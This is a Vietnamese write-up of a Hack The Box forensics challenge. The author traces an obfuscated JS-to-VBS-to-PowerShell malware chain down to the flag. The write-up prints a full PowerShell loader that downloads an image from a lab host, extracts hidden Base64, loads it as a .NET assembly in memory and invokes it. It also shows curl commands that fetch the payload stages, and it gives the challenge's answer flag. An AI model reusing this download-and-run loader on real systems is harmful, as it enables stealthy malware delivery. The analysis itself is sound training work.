










# Challenge Getting Closer

## 1. Đầu vào challenge

Đầu vào challenge cung cấp một file `.js`.



---

## 2. Quan sát file JS ban đầu

Trước tiên mở file `.js` ra để xem sơ bộ. Có thể thấy bên trong chứa khá nhiều chuỗi bị obfuscate.



Đọc kỹ hơn thì chú ý tới một số đoạn đáng ngờ như sau.





### Nhận định

Từ các đoạn này có thể nghi ngờ attacker đang cố tải một payload từ web, ghi ra file để thực thi, sau đó xóa file nhằm giảm dấu vết.

---

## 3. Tải stage tiếp theo từ URL trong script

Thử dùng `curl` với host để lấy payload:

```bash
curl -H 'Host: infected.human.htb' "http://IP:PORT/d/BKtQR" > payload.vbs
```

Mở file `payload.vbs` ra thì thấy nó tiếp tục bị obfuscate khá nặng.



Trong đó có một dòng rất đáng nghi vì nó có vẻ là phần dùng để thực thi payload thật.



---

## 4. Tận dụng chính script để deobfuscate command thực thi

Tận dụng script này để deobfuscate. Chỉ cần bỏ phần thực thi đi, rồi thay dòng cuối thành:

```vbscript
WScript.Echo "powershell -command " & tomqOXAFzrtBfQNTWGTuDgkLdYgzpoJtKGfuDsVESyJFHtcTuIutPkyuVQpwGLbFvLzIXmwguYvYDQgGkwihbveHvvcwfRqtjiREeQFyWwImwPIYWQUCUkxpKztLmHwNlIJgvNGzLQmRPuWNmhjWkXYLnDNfNpXwZwmVMhIMMViCmFVUKhHgGZowKY
WScript.Quit
```

Sau đó chạy trên Windows:

```bash
cscript //nologo mal.vbs > command.txt
```

Kết quả thu được thêm một chuỗi PowerShell vẫn còn bị obfuscate.



Quan sát tiếp thì thấy script có dùng `replace` ở cuối để deobfuscate chuỗi này.



Sau khi đem phần đó xử lý bằng CyberChef, thu được một chuỗi Base64.



---

## 5. Decode Base64 để lấy PowerShell stage tiếp theo

Tiếp tục decode Base64 thì thu được đoạn PowerShell sau:

```powershell
$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg'
$webClient = New-Object System.Net.WebClient
$imageBytes = $webClient.DownloadData($imageUrl)
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes)

$startFlag = '<<BASE64_START>>'
$endFlag = '<<BASE64_END>>'

$startIndex = $imageText.IndexOf($startFlag)
$endIndex = $imageText.IndexOf($endFlag)

$startIndex -ge 0 -and $endIndex -gt $startIndex

$startIndex += $startFlag.Length
$base64Length = $endIndex - $startIndex
$base64Command = $imageText.Substring($startIndex, $base64Length)

$commandBytes = [System.Convert]::FromBase64String($base64Command)
$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes)

$type = $loadedAssembly.GetType('Fiber.Home')
$method = $type.GetMethod('VAI').Invoke($null, [object[]] (
    'ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=',
    'dfdfd',
    'dfdf',
    'dfdf',
    'dadsa',
    'de',
    'cu'
))
```

### Phân tích

### 5.1. Tải ảnh từ URL

```powershell
$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg'
```
Tạo biến `$imageUrl` và gán địa chỉ của file ảnh. 

### 5.2. Đặt marker bắt đầu và kết thúc

```powershell
$startFlag = '<<BASE64_START>>'
$endFlag = '<<BASE64_END>>'
```

Hai biến chứa hai chuỗi đánh dấu biên của dữ liệu ẩn. 

### 5.3. Cắt riêng phần Base64 khỏi ảnh

```powershell
$base64Command = $imageText.Substring($startIndex, $base64Length)
```

`Substring(start, length)` dùng để lấy một đoạn con trong chuỗi.

Kết quả là:

```text
$base64Command chứa đúng phần Base64 nằm giữa hai marker
```

### 5.4. Giải mã Base64 thành bytes

```powershell
$commandBytes = [System.Convert]::FromBase64String($base64Command)
```

Decode Base64 thành binary của payload.

### 5.5. Nạp payload vào bộ nhớ

```powershell
$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes)
```

`Assembly::Load()` dùng để nạp một `.NET assembly` từ bytes trực tiếp vào RAM. 

### 5.6. Lấy method và thực thi 

```powershell
$method = $type.GetMethod('VAI').Invoke($null, [object[]] (
    'ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=',
    'dfdfd',
    'dfdf',
    'dfdf',
    'dadsa',
    'de',
    'cu'
))
```

- `GetMethod('VAI')`: lấy method tên `VAI` trong class `Fiber.Home`
- `Invoke($null, ...)`: gọi method thực thi
- `[object[]](...)`: truyền vào một mảng tham số

### 5.7. Strings Base64

```text
ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=
```
Sau khi decode ra một chuỗi bị đảo ngược. Đảo lại sẽ thành URL:

```text
https://firebasestorage.googleapis.com/v0/b/hacking-6c39f.appspot.com/o/transfer.txt?alt=media&token=36a2c37d-439c-47c5-84f1-ee71b12ffd5d
```

#### Nhận định

- là địa chỉ stage / data tiếp theo
- được giấu bằng `base64 + reverse`
---

## 6. Trích dữ liệu ẩn trong ảnh

Tải ảnh về để xem dữ liệu bên trong:

```bash
curl -H 'Host: infected.zombie.htb' "http://IP:PORT/WJveX71agmOQ6Gw_1698762642.jpg" -o image.jpg
```


Sau đó dùng `strings` để lấy đoạn dữ liệu đã chèn trong ảnh:

```bash
strings image.jpg | grep 'BASE64' > text.txt
```

Từ chuỗi Base64 này, tiếp tục decode thì thu được flag.

---

## 9. Flag

Cuối cùng thu được flag là:

```text
HTB{0n3_St3p_cl0s3r_t0_th3_cur3}
```



---

## 10. Flow

```text
file .js
   |
   v
mở file và nhận ra nhiều chuỗi obfuscate
   |
   v
chú ý tới đoạn script tải payload từ web
   |
   v
dùng curl lấy về payload.vbs
   |
   v
nhận ra VBS tiếp tục bị obfuscate
   |
   v
tận dụng chính script để echo ra command PowerShell
   |
   v
xử lý phần replace để deobfuscate
   |
   v
thu được chuỗi Base64
   |
   v
decode ra PowerShell script
   |
   v
nhận ra script tải một file ảnh và bóc dữ liệu ẩn bên trong
   |
   v
Base64 -> bytes -> Assembly::Load -> Invoke method
   |
   v
tải image.jpg về máy
   |
   v
dùng strings để lấy đoạn Base64 được nhúng trong ảnh
   |
   v
decode và thu được flag
```
